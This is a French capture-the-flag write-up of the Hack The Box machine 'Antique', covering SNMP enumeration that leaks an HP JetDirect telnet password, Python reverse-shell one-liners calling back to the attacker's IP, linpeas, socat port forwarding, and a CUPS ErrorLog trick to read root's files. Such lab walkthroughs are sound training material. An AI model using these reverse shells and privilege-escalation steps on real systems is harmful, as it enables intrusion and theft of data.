 **Box Antique sur HTB**

**Enumération:**
```
nmap -sS -sV -p- 10.10.11.107
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-19 12:38 CEST
Stats: 0:00:05 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 21.79% done; ETC: 12:39 (0:00:18 remaining)
Nmap scan report for 10.10.11.107
Host is up (0.041s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
nmap -sS -sV -p- 10.10.11.107
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-19 12:38 CEST
Stats: 0:00:05 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 21.79% done; ETC: 12:39 (0:00:18 remaining)
Nmap scan report for 10.10.11.107
Host is up (0.041s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.91%I=7%D=10/19%Time=616EA056%P=x86_64-pc-linux-gnu%r(NUL
SF:L,F,"\nHP\x20JetDirect\n\n")
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 191.89 seconds
```
```
# nmap -sU -sV 10.10.11.107
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-19 12:38 CEST
Stats: 0:15:50 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 98.22% done; ETC: 12:54 (0:00:17 remaining)                                                   
Nmap scan report for 10.10.1                                                                                         1.107                                                                                                                
Host is up (0.027s latency).                                                                                         
Not shown: 956 closed ports,                                                                                          43 open|filtered ports                                                                                              
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server (public)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1225.48 seconds
```

Nous détections une machine avec seulement un port telnet ouvert, et un inconnu. Telnet nous demande immédiatement un mot de passe. Un scan UDP sera nécessaire pour trouver le service inconnu. Celui ci étant un peu long on peu se renseigner sur le service HP trouvé ici, JetDirect.


**Exploitation**


Il existe plusieurs vulnérabilité sur celui ci, une d'entre elle utilisant snmp pour trouver le mot de passe utilisé par telnet. Le scan UDP confirmant que snmp est utilisé en public, cette faille est exploitable. Nous allons donc l'utiliser

```
snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0                                       130 ⨯
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```

Le serveur nous renvois ici le mot de passe d'administration à partir duquel nous pourrions nous connecter en hexa. Un petit script python pour le décoder fera l'affaire
```
#!/usr/bin/python3

Pass = "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135"

Pass = Pass.split()

PassD = ""

for x in Pass:
	PassD = PassD + chr(int(x,16))

print (PassD)
```
```
./python/rootme/DecToAscii.py 
P@ssw0rd@123!!123       ▒"#%&'01345789BCIPQTWXaetuyăĆđĔĕęĢģĦİıĴĵ
```

Nous avons le mot de passe! Maintenant, connectons nous à telnet. En le faisant nous voyons qu'il est possible d'executer des commandes et que le repertoire contiens un script python. On va donc pouvoir executer un reverse shell en python

```
telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> exec exec python3 -c'importsocket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.1                                                                                                                    
> exec python3 -c'importsocket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
> exec ls
telnet.py
user.txt
> exec python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",1235));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```
nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.107] 37834
$ id
id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```

Nous sommes connecté en tant que lp, un utilisateur crée pour gérer les imprimantes sur linux. Le flag utilisateur est présent ici et permet de valider la premiére partie de cette box.


**Elevation de privilège**


Pour continuer, j'upload le script linpeas dans le répertoire tmp, puis l'execute et ouvre un serveur http temporaire avec python pour récupérer le scan. La procédure peu etre trouvé ici

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Dans le rapport de scan, deux choses attire mon attention, CUPS est executé en tant que root et peu être utilisé comme vecteur d'escalade de privilége, et le port 631 est en écoute.

De nombreuses recherche plus tard j'arrive à faire un port forwarding vers ma machine du port 631 en utilisant socat. Je tombe sur une erreur Bad request de la part de CUPS.

https://book.hacktricks.xyz/tunneling-and-port-forwarding

```
socat TCP-LISTEN:9000,fork TCP:127.0.0.1:631 &

# ensuite aller sur l'ip de la box sur le port 631 donne l'erreur bad request et la version de CUPS 1.6.1
```

A partir d'ici j'ai tenté plusieurs choses: utiliser d'autre outils de port forwarding, utiliser le module de post exploitation cups de metasploit, aucun d'entre eux n'a fonctionné pour me donner accés à la page de cups.

Quelques recherches sur les vulnérabilité de CUPS m'ont ammené sur ce lien et à l'exploit suivant

https://vulners.com/metasploit/MSF:POST/MULTI/ESCALATE/CUPS_ROOT_FILE_READ

```
cupsctl ErrorLog="/root/root.txt"   # spécifie le fichier qu'on veux voir

$ curl http://localhost:631/admin/log/error_log?  # passe par l'interface admin sur le port 631 pour voir le fichier a travers l'error log
curl http://localhost:631/admin/log/error_log?
```

Et voilà, box terminée. Apès un peu plus de recherche, il semble que ma version de chisel avait été compilée avec des librairies différentes de celle qu'utilisais la box. Un membre de HTB m'a donné une version propre qui à fonctionnée et qui m'a permis d'accéder à l'interface de CUPS dans mon navigateur comme le proposais le write up du site.

Cette Box m'aura permis d'en apprendre beaucoup plus sur le port forwarding, et encore une fois démontré que l'énumération est importante une fois sur la machine pour avoir le plus d'informations possible.
